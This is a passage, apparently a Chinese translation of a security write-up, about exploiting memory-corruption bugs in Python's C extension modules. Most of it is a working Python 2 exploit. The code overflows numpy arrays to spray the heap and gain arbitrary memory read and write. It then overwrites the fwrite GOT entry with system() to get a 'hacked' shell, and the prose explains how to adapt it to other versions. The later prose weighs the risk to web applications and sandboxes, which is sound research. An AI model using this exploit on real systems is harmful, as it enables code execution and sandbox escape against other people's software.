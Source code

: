 ```
                    # the size matches and it contents do not equal 'XXXXXXXX'
                    if len(bytearray_) == size and bytearray_[0:8] != 'XXXXXXXX':
                        if data:
                            bytearray_[0:8] = data # write memory
                        else:
                            ret = bytearray_[0:8] # read memory
                        # restore the original PyByteArray-&gt;ob_bytes
                        arrays[k][0][i] = saved_metadata
                        return ret
                except:
                    pass
    raise Exception("Failed to find address %x" % addr)
def read_address(addr):
    return find_address(addr)
def write_address(addr, data):
    find_address(addr, data)
# The address of GOT/PLT entries for system() and fwrite() are hardcoded. These
# addresses are static for a given Python binary when compiled without -fPIE.
# You can obtain them yourself with the following command:
# `readelf -a /path/to/python/ | grep -E '(system|fwrite)'
SYSTEM = 0x8eb278
FWRITE = 0x8eb810
# Spray the heap with some bytearrays and overflown numpy arrays.
arrays = []
bytearrays = []
for i in range(100):
    arrays.append(np.array('A'*0x100))
    arrays[-1].resize(0x1000, 0x100000000000001)
    bytearrays.append(bytearray('X'*0x102))
    bytearrays.append(bytearray('X'*0x103))
# Read the address of system() and write it to fwrite()'s PLT entry. 
data = read_address(SYSTEM)
write_address(FWRITE, data)
# print() will now call system() with whatever string you pass
print "PS1='[HACKED] $ ' /bin/sh"
```

运行漏洞利用给你一个“hacked”的shell。

如果您没有运行Python 2.7.12，请参阅漏洞利用中的注释，了解如何使其适用于您的Python版本

<br>

**量化风险**

众所周知，Python的核心和许多第三方模块都是C代码的包装。 也许不那么认识到，内存损坏错误在流行的Python模块中一直没有像CVE，安全公告，甚至提及发行说明中的安全修复一样被报告。

那么是的，Python模块中有很多内存损坏的bug。 当然不是所有的都是可以利用的，但你必须从某个地方开始。 为了解释内存损坏错误造成的风险，我发现使用两个不同的用例来构建对话：常规Python应用程序和沙盒不受信任的代码。

<br>

**Regular applications**

我们关心的应用程序类型是具有有意义的攻击面的那些。 考虑Web应用程序和其他面向网络的服务，处理不受信任内容，特权系统服务等的客户端应用程序。这些应用程序中的许多应用程序导入针对C代码的Python模块，而不是将其内存损坏错误视为安全问题的项目。 这个纯粹的想法可能会让一些安全专业人员在即使受到伤害，也实际上风险通常被忽视或忽视。 我怀疑有几个原因：
